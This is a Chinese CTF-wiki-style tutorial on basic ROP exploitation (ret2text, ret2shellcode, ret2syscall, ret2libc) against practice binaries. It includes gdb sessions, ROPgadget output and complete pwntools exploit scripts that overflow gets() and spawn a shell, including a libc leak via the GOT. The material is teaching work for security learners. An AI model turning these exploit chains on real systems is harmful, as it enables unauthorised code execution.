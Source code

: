 基本ROP
=======

随着NX保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。攻击者们也提出来相应的方法来绕过保护，目前主要的是ROP(Return Oriented
Programming)，其主要思想是在\ **栈缓冲区溢出的基础上(这一条之后不再重复提及)，通过利用程序中已有的小片段(gadgets)来改变某些寄存器或者变量的值，从而改变程序的执行流程。**\ 所谓gadgets就是以ret结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。

之所以称之为ROP，是因为核心在于利用了指令集中的ret指令，改变了指令流的执行顺序。ROP攻击一般得满足如下条件

-  程序存在溢出，并且可以控制返回地址。
-  可以找到满足条件的gadgets以及相应gadgets的地址。如果当程序开启了PIE保护，那么就必须想办法泄露gadgets的地址了。

ret2text
--------

原理
~~~~

ret2text即需要我们控制程序执行程序本身已有的的代码(.text)。其实，这种攻击方法是一种笼统的描述。我们控制执行程序已有的代码的时候也可以控制程序执行好几段不相邻的程序已有的代码(也就是gadgets)，这就是我们所要说的rop。

这时，我们需要知道对应返回的代码的位置。当然程序也可能会开启某些保护，我们需要想办法去绕过这些保护。

例子
~~~~

其实，在栈溢出的基本原理中，我们已经介绍了这一简单的攻击。在这里，我们再给出另外一个例子，bamboofox中介绍ROP时使用的ret2text的例子。

点击下载: `ret2text <https://github.com/ctf-wiki/ctf-wiki/raw/master/pwn/stackoverflow/example/ret2text/ret2text>`__

首先，查看一下程序的保护机制

.. code:: shell

    ➜  ret2text checksec ret2text
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出程序是32位程序，其仅仅开启了栈不可执行保护。然后，我们使用IDA来查看源代码。

.. code:: c

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      int v4; // [sp+1Ch] [bp-64h]@1

      setvbuf(stdout, 0, 2, 0);
      setvbuf(_bss_start, 0, 1, 0);
      puts("There is something amazing here, do you know anything?");
      gets((char *)&v4);
      printf("Maybe I will tell you next time !");
      return 0;
    }

可以看出程序在主函数中使用了gets函数，显然存在栈溢出漏洞。此后又发现

.. code:: asm

    .text:080485FD secure          proc near
    .text:080485FD
    .text:080485FD input           = dword ptr -10h
    .text:080485FD secretcode      = dword ptr -0Ch
    .text:080485FD
    .text:080485FD                 push    ebp
    .text:080485FE                 mov     ebp, esp
    .text:08048600                 sub     esp, 28h
    .text:08048603                 mov     dword ptr [esp], 0 ; timer
    .text:0804860A                 call    _time
    .text:0804860F                 mov     [esp], eax      ; seed
    .text:08048612                 call    _srand
    .text:08048617                 call    _rand
    .text:0804861C                 mov     [ebp+secretcode], eax
    .text:0804861F                 lea     eax, [ebp+input]
    .text:08048622                 mov     [esp+4], eax
    .text:08048626                 mov     dword ptr [esp], offset unk_8048760
    .text:0804862D                 call    ___isoc99_scanf
    .text:08048632                 mov     eax, [ebp+input]
    .text:08048635                 cmp     eax, [ebp+secretcode]
    .text:08048638                 jnz     short locret_8048646
    .text:0804863A                 mov     dword ptr [esp], offset command ; "/bin/sh"
    .text:08048641                 call    _system

在secure函数又发现了存在调用system("/bin/sh")的代码，那么如果我们直接控制程序返回至0x0804863A，那么就可以得到系统的shell了。

下面就是我们如何构造payload了，首先需要确定的是我们能够控制的内存地址距离main函数的返回地址的字节数。

.. code:: asm

    .text:080486A7                 lea     eax, [esp+1Ch]
    .text:080486AB                 mov     [esp], eax      ; s
    .text:080486AE                 call    _gets

可以看到该字符串是通过相对于esp的索引，所以我们需要进行调试，将断点下在call处，查看esp，ebp，如下

.. code:: shell

    gef➤  b *0x080486AE
    Breakpoint 1 at 0x80486ae: file ret2text.c, line 24.
    gef➤  r
    There is something amazing here, do you know anything?

    Breakpoint 1, 0x080486ae in main () at ret2text.c:24
    24      gets(buf);
    ───────────────────────────────────────────────────────────────────────[ registers ]────
    $eax   : 0xffffcd5c  →  0x08048329  →  "__libc_start_main"
    $ebx   : 0x00000000
    $ecx   : 0xffffffff
    $edx   : 0xf7faf870  →  0x00000000
    $esp   : 0xffffcd40  →  0xffffcd5c  →  0x08048329  →  "__libc_start_main"
    $ebp   : 0xffffcdc8  →  0x00000000
    $esi   : 0xf7fae000  →  0x001b1db0
    $edi   : 0xf7fae000  →  0x001b1db0
    $eip   : 0x080486ae  →  <main+102> call 0x8048460 <gets@plt>

可以看到esp为0xffffcd40，ebp为具体的payload如下0xffffcdc8，同时s相对于esp的索引为[esp+0x1c]，所以，s的地址为0xffffcd5c，所以s相对于ebp的偏移为0x6C，所以相对于返回地址的偏移为0x6c+4。

最后的payload如下：

.. code:: python

    ##!/usr/bin/env python
    from pwn import *

    sh = process('./ret2text')
    target = 0x804863a
    sh.sendline('A' * (0x6c+4) + p32(target))
    sh.interactive()

题目
~~~~

ret2shellcode
-------------

原理
~~~~

ret2shellcode需要我们控制程序执行shellcode代码。而所谓的shellcode指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的shell。\ **一般来说，shellcode都需要我们自己去填充。这其实是另外一种典型的利用的方法，即此时我们需要自己去填充一些可执行的代码**\ 。

而在栈溢出的基础上，我们一般都是向栈中写内容，所以要想执行shellcode，需要对应的binary文件没有开启NX保护。

例子
~~~~

这里我们以bamboofox中的ret2shellcode为例

点击下载: `ret2shellcode <https://github.com/ctf-wiki/ctf-wiki/raw/master/pwn/stackoverflow/example/ret2shellcode/ret2shellcode>`__

首先检测程序开启的保护

.. code:: shell

    ➜  ret2shellcode checksec ret2shellcode
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments

可以看出源程序几乎没有开启任何保护，并且有可读，可写，可执行段。我们再使用IDA看一下程序

.. code:: c

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      int v4; // [sp+1Ch] [bp-64h]@1

      setvbuf(stdout, 0, 2, 0);
      setvbuf(stdin, 0, 1, 0);
      puts("No system for you this time !!!");
      gets((char *)&v4);
      strncpy(buf2, (const char *)&v4, 0x64u);
      printf("bye bye ~");
      return 0;
    }

可以看出，程序仍然是基本的栈溢出漏洞，不过这次还同时将对应的字符串复制到buf2处。简单查看可知buf2在bss段。

.. code:: asm

    .bss:0804A080                 public buf2
    .bss:0804A080 ; char buf2[100]

这时，我们简单的调试下程序，看看这一个bss段是否可执行。

.. code:: shell

    gef➤  b main
    Breakpoint 1 at 0x8048536: file ret2shellcode.c, line 8.
    gef➤  r
    Starting program: /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode 

    Breakpoint 1, main () at ret2shellcode.c:8
    8       setvbuf(stdout, 0LL, 2, 0LL);
    ─────────────────────────────────────────────────────────────────────[ source:ret2shellcode.c+8 ]────
          6  int main(void)
          7  {
     →    8      setvbuf(stdout, 0LL, 2, 0LL);
          9      setvbuf(stdin, 0LL, 1, 0LL);
         10  
    ─────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0x8048536 → Name: main()
    ─────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤  vmmap 
    Start      End        Offset     Perm Path
    0x08048000 0x08049000 0x00000000 r-x /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
    0x08049000 0x0804a000 0x00000000 r-x /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
    0x0804a000 0x0804b000 0x00001000 rwx /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
    0xf7dfc000 0xf7fab000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so
    0xf7fab000 0xf7fac000 0x001af000 --- /lib/i386-linux-gnu/libc-2.23.so
    0xf7fac000 0xf7fae000 0x001af000 r-x /lib/i386-linux-gnu/libc-2.23.so
    0xf7fae000 0xf7faf000 0x001b1000 rwx /lib/i386-linux-gnu/libc-2.23.so
    0xf7faf000 0xf7fb2000 0x00000000 rwx 
    0xf7fd3000 0xf7fd5000 0x00000000 rwx 
    0xf7fd5000 0xf7fd7000 0x00000000 r-- [vvar]
    0xf7fd7000 0xf7fd9000 0x00000000 r-x [vdso]
    0xf7fd9000 0xf7ffb000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.23.so
    0xf7ffb000 0xf7ffc000 0x00000000 rwx 
    0xf7ffc000 0xf7ffd000 0x00022000 r-x /lib/i386-linux-gnu/ld-2.23.so
    0xf7ffd000 0xf7ffe000 0x00023000 rwx /lib/i386-linux-gnu/ld-2.23.so
    0xfffdd000 0xffffe000 0x00000000 rwx [stack]

通过vmmap，我们可以看到bss段对应的段具有可执行权限

.. code:: text

    0x0804a000 0x0804b000 0x00001000 rwx /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode

那么这次我们就控制程序执行shellcode，也就是读入shellcode，然后控制程序执行bss段处的shellcode。其中，相应的偏移计算类似于ret2text中的例子。

具体的payload如下

.. code:: python

    ##!/usr/bin/env python
    from pwn import *

    sh = process('./ret2shellcode')
    shellcode = asm(shellcraft.sh())
    buf2_addr = 0x804a080

    sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
    sh.interactive()

题目
~~~~

-  sniperoj-pwn100-shellcode-x86-64

ret2syscall
-----------

原理
~~~~

ret2syscall需要我们控制程序执行系统调用，获取shell。

例子
~~~~

这里我们以bamboofox中的ret2syscall为例

点击下载: `ret2syscall <https://github.com/ctf-wiki/ctf-wiki/raw/master/pwn/stackoverflow/example/ret2syscall/rop>`__

首先检测程序开启的保护

.. code:: shell

    ➜  ret2syscall checksec rop
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出，源程序为32位，开启了NX保护。接下来利用IDA来查看源码

.. code:: c

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      int v4; // [sp+1Ch] [bp-64h]@1

      setvbuf(stdout, 0, 2, 0);
      setvbuf(stdin, 0, 1, 0);
      puts("This time, no system() and NO SHELLCODE!!!");
      puts("What do you plan to do?");
      gets(&v4);
      return 0;
    }

可以看出此次仍然是一个栈溢出。类似于之前的做法，我们可以获得v4相对于ebp的偏移为108。所以我们需要覆盖的返回地址相对于v4的偏移为112。此次，由于我们不能直接利用程序中的某一段代码或者自己填写代码来获得shell，所以我们利用程序中的gadgets来获得shell，而对应的shell获取则是利用系统调用。关于系统调用的知识，请参考

-  https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8

简单地说，只要我们把对应获取shell的系统调用的参数放到对应的寄存器中，那么我们在执行int 0x80就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取shell

.. code:: c

    execve("/bin/sh",NULL,NULL)

其中，该程序是32位，所以我们需要使得

-  系统调用号即eax应该为0xb
-  第一个参数即ebx应该指向/bin/sh的地址，其实执行sh的地址也可以
-  第二个参数即ecx应该为0
-  第三个参数edx应该为0

而我们如何控制这些寄存器的值 呢？这里就需要使用gadgets。比如说，现在栈顶是10，那么如果此时执行了pop
eax，那么现在eax的值就为10。但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这也是我们在gadgets最后使用ret来再次控制程序执行流程的原因。具体寻找gadgets的方法，我们可以使用ropgadgets这个工具。

首先，我们来寻找控制eax的gadgets

.. code:: shell

    ➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
    0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
    0x080bb196 : pop eax ; ret
    0x0807217a : pop eax ; ret 0x80e
    0x0804f704 : pop eax ; ret 3
    0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret

可以看到有上述几个都可以控制eax，那我就选取第二个来作为我的gadgets。

类似的，我们可以得到控制其它寄存器的gadgets

.. code:: shell

    ➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
    0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
    0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
    0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
    0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
    0x080be23f : pop ebx ; pop edi ; ret
    0x0806eb69 : pop ebx ; pop edx ; ret
    0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
    0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
    0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
    0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
    0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
    0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
    0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
    0x08048913 : pop ebx ; pop esi ; pop edi ; ret
    0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
    0x08049a94 : pop ebx ; pop esi ; ret
    0x080481c9 : pop ebx ; ret
    0x080d7d3c : pop ebx ; ret 0x6f9
    0x08099c87 : pop ebx ; ret 8
    0x0806eb91 : pop ecx ; pop ebx ; ret
    0x0806336b : pop edi ; pop esi ; pop ebx ; ret
    0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
    0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
    0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
    0x0805c820 : pop esi ; pop ebx ; ret
    0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
    0x0807b6ed : pop ss ; pop ebx ; ret

这里，我选择

.. code:: text

    0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret

这个可以直接控制其它三个寄存器。

此外，我们需要获得/bin/sh字符串对应的地址。

.. code:: shell

    ➜  ret2syscall ROPgadget --binary rop  --string '/bin/sh' 
    Strings information
    ============================================================
    0x080be408 : /bin/sh

可以找到对应的地址，此外，还有int 0x80的地址，如下

.. code:: text

    ➜  ret2syscall ROPgadget --binary rop  --only 'int'                 
    Gadgets information
    ============================================================
    0x08049421 : int 0x80
    0x080938fe : int 0xbb
    0x080869b5 : int 0xf6
    0x0807b4d4 : int 0xfc

    Unique gadgets found: 4

同时，也找到对应的地址了。

下面就是对应的payload,其中0xb为execve对应的系统调用号。

.. code:: python

    ##!/usr/bin/env python
    from pwn import *

    sh = process('./rop')

    pop_eax_ret = 0x080bb196
    pop_edx_ecx_ebx_ret = 0x0806eb90
    int_0x80 = 0x08049421
    binsh = 0x80be408
    payload = flat(
        ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
    sh.sendline(payload)
    sh.interactive()

题目
~~~~

ret2libc
--------

原理
~~~~

ret2libc即控制函数的执行 libc中的函数，通常是返回至某个函数的plt处或者函数的具体位置(即函数对应的got表项的内容)。一般情况下，我们会选择执行system("/bin/sh")，故而此时我们需要知道system函数的地址。

例子
~~~~

我们由简单到难分别给出三个例子。

例1
^^^

这里我们以bamboofox中ret2libc1为例

点击下载: `ret2libc1 <https://github.com/ctf-wiki/ctf-wiki/raw/master/pwn/stackoverflow/example/ret2libc1/ret2libc1>`__

首先，我们可以检查一下程序的安全保护

.. code:: shell

    ➜  ret2libc1 checksec ret2libc1    
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

源程序为32位，开启了NX保护。下面来看一下程序源代码，确定漏洞位置

.. code:: c

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      int v4; // [sp+1Ch] [bp-64h]@1

      setvbuf(stdout, 0, 2, 0);
      setvbuf(_bss_start, 0, 1, 0);
      puts("RET2LIBC >_<");
      gets((char *)&v4);
      return 0;
    }

可以看到在执行gets函数的时候出现了栈溢出。此外，利用ropgadget，我们可以查看是否有/bin/sh存在

.. code:: shell

    ➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'          
    Strings information
    ============================================================
    0x08048720 : /bin/sh

确实存在，再次查找一下是否有system函数存在。经在ida中查找，确实也存在。

.. code:: asm

    .plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]

那么，我们直接返回该处，即执行system函数。相应的payload如下

.. code:: python

    ##!/usr/bin/env python
    from pwn import *

    sh = process('./ret2libc1')

    binsh_addr = 0x8048720
    system_plt = 0x08048460
    payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
    sh.sendline(payload)

    sh.interactive()

这里我们需要注意函数调用栈的结构，如果是正常调用system函数，我们调用的时候会有一个对应的返回地址，这里以'bbbb'作为虚假的地址，其后参数对应的参数内容。

这个例子，相对来说，最为简单，同时提供了system地址与/bin/sh的地址，但是大多数程序并不会有这么好的情况。

例2
^^^

这里以bamboofox中的ret2libc2为例

点击下载: `ret2libc2 <https://github.com/ctf-wiki/ctf-wiki/raw/master/pwn/stackoverflow/example/ret2libc2/ret2libc2>`__

该题目与例1基本一致，只不过不再出现/bin/sh字符串，所以此次需要我们自己来读取字符串，所以我们需要两个gadgets，第一个控制程序读取字符串，第二个控制程序执行system(""/bin/sh")。由于漏洞与上述一致，这里就不在多说，具体的exp如下

.. code:: python

    ##!/usr/bin/env python
    from pwn import *

    sh = process('./ret2libc2')

    gets_plt = 0x08048460
    system_plt = 0x08048490
    pop_ebx = 0x0804843d
    buf2 = 0x804a080
    payload = flat(
        ['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
    sh.sendline(payload)
    sh.sendline('/bin/sh')
    sh.interactive()

需要注意的是，我这里向程序中bss段的buf2处写入/bin/sh字符串，并将其地址作为system的参数传入。这样以便于可以获得shell。

例3
^^^

这里以bamboofox中的ret2libc3为例

点击下载: `ret2libc3 <https://github.com/ctf-wiki/ctf-wiki/raw/master/pwn/stackoverflow/example/ret2libc3/ret2libc3>`__

在例2的基础上，再次将system函数的地址去掉。此时，我们需要同时找到system函数地址与/bin/sh字符串的地址。首先，查看安全保护

.. code:: shell

    ➜  ret2libc3 checksec ret2libc3
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出，源程序仍旧开启了堆栈不可执行保护。进而查看源码，发现程序的bug仍然是栈溢出

.. code:: c

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      int v4; // [sp+1Ch] [bp-64h]@1

      setvbuf(stdout, 0, 2, 0);
      setvbuf(stdin, 0, 1, 0);
      puts("No surprise anymore, system disappeard QQ.");
      printf("Can you find it !?");
      gets((char *)&v4);
      return 0;
    }

那么我们如何得到system函数的地址呢？这里就主要利用了两个知识点

-  system函数属于libc，而libc.so文件中的函数之间相对偏移是固定的。
-  即使程序有ASLR保护，也只是针对于地址中间位进行随机，最低的12位并不会发生改变。而libc在github上有人进行收集，具体细节如下
-  https://github.com/niklasb/libc-database

所以如果我们知道libc中某个函数的地址，那么我们就可以确定该程序利用的libc。进而我们就可以知道system函数的地址。

那么如何得到libc中的某个函数的地址呢？我们一般常用的方法是采用got表泄露，即输出某个函数对应的got表项的内容。\ **当然，由于libc的延迟绑定机制，我们需要选择已经执行过的函数来进行泄露。**

我们自然可以根据上面的步骤先得到libc，之后在程序中查询偏移，然后再次获取system地址，但这样手工操作次数太多，有点麻烦，这里给出一个libc的利用工具，具体细节请参考readme

-  https://github.com/lieanu/LibcSearcher

此外，在得到libc之后，其实libc中也是有/bin/sh字符串的，所以我们可以一起获得/bin/sh字符串的地址。

这里我们泄露\_\_libc\_start\_main的地址，这是因为它是程序最初被执行的地方。基本利用思路如下

-  泄露\_\_libc\_start\_main地址
-  获取libc版本
-  获取system地址与/bin/sh的地址
-  再次执行源程序
-  触发栈溢出执行system(‘/bin/sh’)

exp如下

.. code:: python

    ##!/usr/bin/env python
    from pwn import *
    from LibcSearcher import LibcSearcher
    sh = process('./ret2libc3')

    ret2libc3 = ELF('./ret2libc3')

    puts_plt = ret2libc3.plt['puts']
    libc_start_main_got = ret2libc3.got['__libc_start_main']
    main = ret2libc3.symbols['main']

    print "leak libc_start_main_got addr and return to main again"
    payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
    sh.sendlineafter('Can you find it !?', payload)

    print "get the related addr"
    libc_start_main_addr = u32(sh.recv()[0:4])
    libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
    libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
    system_addr = libcbase + libc.dump('system')
    binsh_addr = libcbase + libc.dump('str_bin_sh')

    print "get shell"
    payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
    sh.sendline(payload)

    sh.interactive()

题目
~~~~

-  train.cs.nctu.edu.tw ret2libc

shell获取小结
-------------

这里总结几种常见的获取shell的方式：

-  执行shellcode，这一方面也会有不同的情况
    -  可以直接返回shell
    -  可以将shell返回到某一个端口
    -  shellcode中字符有时候需要满足不同的需求
    -  **注意，我们需要将shellcode写在可以执行的内存区域中。**
-  执行system("/bin/sh"),system('sh')等等
    -  关于system的地址，参见下面章节的\ **地址寻找**\ 。
    -  关于"/bin/sh"， “sh”
        -  首先寻找binary里面有没有对应的字符串,\ **比如说有flush函数，那就一定有sh了**
        -  考虑个人读取对应字符串
        -  libc中其实是有/bin/sh的
    -  优点
        -  只需要一个参数。
    -  缺点
        -  **有可能因为破坏环境变量而无法执行。**
-  执行execve("/bin/sh",NULL,NULL)
    -  前几条同system
    -  优点
        -  几乎不受环境变量的影响。
    -  缺点
        -  **需要3个参数。**
-  系统调用
    -  系统调用号11

地址寻找小结
------------

在整个漏洞利用过程中，我们总是免不了要去寻找一些地址，常见的寻找地址的类型，有如下几种

通用寻找
~~~~~~~~

直接地址寻找
^^^^^^^^^^^^

程序中已经给出了相关变量或者函数的地址了。这时候，我们就可以直接进行利用了。

got表寻找
^^^^^^^^^

有时候我们并不一定非得直接知道某个函数的地址，可以利用GOT表的跳转到对应函数的地址。当然，如果我们非得知道这个函数的地址，我们可以利用write，puts等输出函数将GOT表中地址处对应的内容输出出来（\ **前提是这个函数已经被解析一次了**\ ）。

有libc
~~~~~~

**相对偏移寻找**\ ，这时候我们就需要考虑利用libc中函数的基地址一样这个特性来寻找了。其实\_\_libc\_start\_main就是libc在内存中的基地址。\ **注意：不要选择有wapper的函数，这样会使得函数的基地址计算不正确。**\ 常见的有wapper的函数有（待补充）。

无libc
~~~~~~

其实，这种情况的解决策略分为两种

-  想办法获取libc
-  想办法直接获取对应的地址。

而对于想要泄露的地址，我们只是单纯地需要其对应的内容，所以puts和write均可以。

-  puts会有\\\x00截断的问题
-  write可以指定长度输出的内容。

下面是一些相应的方法

DynELF
^^^^^^

前提是我们可以泄露任意地址的内容。

-  **如果要使用write函数泄露的话，一次最好多输出一些地址的内容，因为我们一般是只是不断地向高地址读内容，很有可能导致高地址的环境变量被覆盖，就会导致shell不能启动。**

libc数据库
^^^^^^^^^^

.. code:: shell

    ## 更新数据库
    ./get
    ## 将已有libc添加到数据库中
    ./add libc.so 
    ## Find all the libc's in the database that have the given names at the given addresses. 
    ./find function1 addr function2 addr
    ## Dump some useful offsets, given a libc ID. You can also provide your own names to dump.
    ./Dump some useful offsets

去libc的数据库中找到对应的和已经出现的地址一样的libc，这时候很有可能是一样的。

-  libcdb.com

**当然，还有上面提到的https://github.com/lieanu/LibcSearcher。**

ret2dl-resolve
^^^^^^^^^^^^^^

当ELF文件采用动态链接时，got表会采用延迟绑定技术。当第一次调用某个libc函数时，程序会调用\_dl\_runtime\_resolve函数对其地址解析。因此，我们可以利用栈溢出构造ROP链，伪造对其他函数（如：system）的解析。这也是我们在高级rop中会介绍的技巧。

题目
----

-  train.cs.nctu.edu.tw
-  rop
-  2013-PlaidCTF-ropasaurusrex
-  Defcon 2015 Qualifier: R0pbaby

**参考阅读**

-  乌云一步一步ROP篇(蒸米)
-  `手把手教你栈溢出从入门到放弃（上） <https://zhuanlan.zhihu.com/p/25816426>`__
-  `手把手教你栈溢出从入门到放弃（下） <https://zhuanlan.zhihu.com/p/25892385>`__
-  `【技术分享】现代栈溢出利用技术基础：ROP <http://bobao.360.cn/learning/detail/3694.html>`__
